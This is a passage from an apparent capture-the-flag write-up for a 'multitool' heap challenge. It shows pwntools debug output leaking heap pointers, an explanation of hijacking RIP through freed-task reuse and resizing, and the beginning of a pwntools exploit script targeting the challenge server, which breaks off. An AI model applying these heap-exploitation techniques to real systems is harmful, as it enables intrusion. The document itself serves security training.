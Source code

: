 ```
    b'Resume task #: '
[DEBUG] Sent 0x2 bytes:
    b'6\n'
[DEBUG] Received 0xe5 bytes:
    00000000  52 65 73 75  6c 74 3a 20  78 32 3c ac  b3 55 00 00  │Resu│lt: │x2<·│·U··│
    00000010  28 10 15 ad  b3 55 00 00  0b 00 00 00  00 00 00 00  │(···│·U··│····│····│
    00000020  42 75 62 62  6c 65 20 53  6f 72 74 00  00 00 00 00  │Bubb│le S│ort·│····│
    00000030  48 10 15 ad  b3 55 00 00  0e 00 00 00  00 00 00 00  │H···│·U··│····│····│
    00000040  53 6c 6f 77  20 41 6c 67  6f 72 69 74  68 6d 00 00  │Slow│ Alg│orit│hm··│
    00000050  68 10 15 ad  b3 55 00 00  02 00 00 00  00 00 00 00  │h···│·U··│····│····│
    00000060  31 20 00 00  00 00 00 00  11 11 00 00  00 00 00 00  │1 ··│····│····│····│
    00000070  50 16 15 ad  b3 55 00 00  01 00 00 00  00 00 00 00  │P···│·U··│····│····│
    00000080  81 00 00 00  00 00 00 00  58 31 3c ac  b3 55 00 00  │····│····│X1<·│·U··│
    00000090  a8 10 15 ad  b3 55 00 00  09 00 00 00  00 00 00 00  │····│·U··│····│····│
    000000a0  46 69 62 6f  6e 61 63 63  69 00 00 00  00 00 00 00  │Fibo│nacc│i···│····│
    000000b0  c8 10 15 ad  b3 55 00 00  0e 00 00 00  0a 44 6f 6e  │····│·U··│····│·Don│
    000000c0  65 21 0a 31  2e 20 43 72  65 61 74 65  20 6e 65 77  │e!·1│. Cr│eate│ new│
    000000d0  20 74 61 73  6b 0a 32 2e  20 52 65 73  75 6d 65 20  │ tas│k·2.│ Res│ume │
    000000e0  74 61 73 6b  0a                                     │task│·│
    000000e5
```
## Exploit development: RIP control part
Next, use `run_algo_async` to capture RIP.
This time, unlike before, a pointer with offset +0 is used, so pointing to valid tasks is troublesome. Therefore, first call `destroy`, then resize to move the `tasks`, rewrite the original `tasks` pointer location, and then `resume` to run it pointing to the location where the old `tasks` were. After resize, use `fast_algo_factory` to input the payload.

The first resize frees the size of 0x90, but it was a little difficult to use, so I aimed for the next size of 0x110.

Here is the final script.

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './multitool'
HOST = 'chals.sekai.team'
PORT = 4020

elf = ELF(TARGET)
def start():
	if not args.R:
		print("local")
		return process(TARGET)
		# return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
		# return process(TARGET, stdout=process.PTY, stdin=process.PTY)
	else:
		print("remote")
		return remote(HOST, PORT)

def get_base_address(proc):
	lines = open("/proc/{}/maps".format(proc.pid), 'r').readlines()
	for line in lines :
		if TARGET[2:] in line.split('/')[-1] :
			break
	return int(line.split('-')[0], 16)

def debug(proc, breakpoints):
	script = "handle SIGALRM ignore\n"
```